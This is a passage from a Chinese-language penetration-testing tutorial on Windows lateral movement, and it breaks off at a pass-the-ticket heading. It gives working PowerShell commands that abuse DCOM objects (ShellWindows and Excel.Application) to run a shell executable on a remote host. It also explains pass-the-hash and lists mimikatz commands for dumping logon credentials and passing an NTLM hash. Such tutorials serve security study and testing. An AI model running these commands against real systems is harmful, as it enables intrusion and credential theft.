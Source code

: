 通过调用`9BA05972-F6A8-11CF-A442-00A0C90A8F39`来执行 exe 文件

```
$com = [Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.52.138")$obj = [System.Activator]::CreateInstance($com)$item = $obj.item()$item.Document.Application.ShellExecute("cmd.exe","/c c:\shell.exe","c:\windows\system32",$null,0)
```

调用 Excel.Application 远程执行命令
---------------------------

```
# 通过PowerShell与DCOM进行远程交互，创建Excel.Application对象的实例:$com = [activator]::CreateInstance([type]::GetTypeFromprogID("Excel.Application","192.168.52.138"))$com.DisplayAlerts = $false# 然后执行如下命令，我们就可以调用该对象的"DDEInitiate"方法在远程主机上启动进程$com.DDEInitiate("cmd.exe","/c C:\shell.exe")
```

这里就不再列举其他方法了，这一部分因为知识储备的问题很多都是借鉴大佬们的思想，这里 WHOAMI 大佬介绍的`DCOM横向移动`十分详细，师傅们请移步：

如何利用 DCOM 进行内网横向渗透

PTH(pass the hash)
==================

`pass-the-hash`在内网渗透中是一种很经典的攻击方式，原理就是攻击者可以直接通过`LM Hash`和`NTLM Hash`访问远程主机或服务，而不用提供明文密码。

`pass the hash`原理：

• 在 Windows 系统中，通常会使用 NTLM 身份认证 •NTLM 认证不使用明文口令，而是使用口令加密后的 hash 值，hash 值由系统 API 生成 (例如 LsaLogonUser)•hash 分为 LM hash 和 NT hash，如果密码长度大于 15，那么无法生成 LM hash。从 Windows Vista 和 Windows Server 2008 开始，微软默认禁用 LM hash• 如果攻击者获得了 hash，就能够在身份验证的时候模拟该用户 (即跳过调用 API 生成 hash 的过程)

这类攻击适用于：

• 域 / 工作组环境 • 可以获得 hash，但是条件不允许对 hash 爆破 • 内网中存在和当前机器相同的密码

微软也对`pth`打过补丁，然而在测试中发现，在打了补丁后，常规的`Pass The Hash`已经无法成功，唯独默认的`Administrator(SID 500)`账号例外，利用这个账号仍可以进行`Pass The Hash`远程 ipc 连接。

如果禁用了 ntlm 认证，PsExec 无法利用获得的 ntlm hash 进行远程连接，但是使用 mimikatz 还是可以攻击成功。

从 windows 到 windows 横向 pth 这一类攻击方法比较广泛。

首先使用`mimikatz`抓取域管 hash，注意`mimikatz`在抓取到 hash 之后是不能够直接复制的，所以我们这里选择用 log 参数将抓取到的 hash 输出为 txt

```
mimikatz log privilege::debug sekurlsa::logonpasswords
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBl0hQrbHU68AYQglGliaOoc5yblBtTxUkWvIBy71tB3QBFmlLFNWAqQmQ/640?wx_fmt=png)

使用`mimikatz` hash 传递

```
sekurlsa::pth /user:administrator /domain:workgroup /ntlm:ea7937eec9ab52e6cc9528a2011ca1d8
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBlsDwn3vG1Z9zqHCoBncc5VD5lNlss5chb8l1iaVO1Wia05Juap9Gt2gnA/640?wx_fmt=png)

PTT(pass the ticket)
====================
